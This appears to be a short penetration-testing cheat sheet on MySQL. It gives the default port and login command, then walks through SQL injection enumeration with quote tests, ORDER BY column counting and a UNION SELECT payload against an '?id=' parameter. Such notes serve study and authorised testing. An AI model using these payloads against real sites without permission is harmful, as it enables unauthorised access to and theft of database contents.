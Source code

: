 ### Ports
Default ports 3306

### Access
mysql -u <username> -p 

### SQL Injection 
## Enumeration
1. Try single and double quotes; ?id=1' or ?id=1". If SQL errors are returned, you have escaped the input area of the SQL string.
2. Comment out the rest of the SQL query with '--+ ' (Note the space after the '+')

To find out how many columns in the table where '?id=' is present, use the ORDER operator by starting at 1, and increasing the value until an SQL error is returned. The column count equals the amount prior to the SQL error.

### ORDER Operator
> https://www.w3schools.com/sql/sql_orderby.asp
> Example below
> SELECT column1, column2, ...
> 
> FROM table_name
> 
> ORDER BY column1, column2, ... ASC|DESC;

Example of ORDER used in an injection:
> "?id=1' ORDER by 1--+ "
> 
> "?id=1' ORDER by 2--+ "
> 
> "?id=1' ORDER by 3--+ "
> 
> "?id=1' ORDER by n--+ "

An SQL error "Unknown column '4' in 'order clause'" may be returned when the column integer in the ORDER operator doesn't exist, so now we know there are 3 columns in this table.

### UNION operator
> https://www.w3schools.com/sql/sql_union.asp
> 
> ?id=1' UNION select 1,2,3 --+ 
